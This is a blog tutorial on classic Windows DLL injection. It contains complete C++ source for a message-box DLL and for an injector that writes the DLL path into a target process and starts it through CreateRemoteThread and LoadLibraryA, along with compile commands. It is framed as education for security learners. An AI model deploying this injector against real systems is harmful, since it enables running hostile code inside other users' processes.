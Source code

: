 ```yaml
---
title:  "Classic DLL injection into the process. Simple C++ malware."
date:   2021-09-20 10:00:00 +0600
header:
  teaser: "/assets/images/7/2021-09-20_15-01.png"
categories:
  - tutorial
tags:
  - dll injection
  - windows
  - malware
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL injection](/assets/images/7/2021-09-20_15-01.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.

In this post we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in [this](/tutorial/2021/09/18/malware-injection-1.html) post.

Firstly, let's go to prepare our DLL.       

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call your code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.

For simplicity, we create DLL which just pop-up a message box:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](/assets/images/7/2021-09-20_17-01.png){:class="img-responsive"}

and put it in a directory of our choice (victim's machine):
![put DLL](/assets/images/7/2021-09-20_17-09.png){:class="img-responsive"}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

It's pretty simple as you can see. It's same as in my [code injection](/tutorial/2021/09/18/malware-injection-1.html) post. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:

![LoadLibraryA](/assets/images/7/2021-09-20_18-11.png){:class="img-responsive"}

So finally after we understood entire code of the injector, we can test it.
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](/assets/images/7/2021-09-20_18-20.png){:class="img-responsive"}

Let's first launch a `calc.exe` instance and then execute our program:

![run injector](/assets/images/7/2021-09-20_18-25.png){:class="img-responsive"}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](/assets/images/7/2021-09-22_09-03.png){:class="img-responsive"}

In another memory section we can see:
![Process Hacker 2](/assets/images/7/2021-09-22_09-23.png){:class="img-responsive"}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation like [this](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) post.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future I will try to figure out more advanced code injection techniques.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
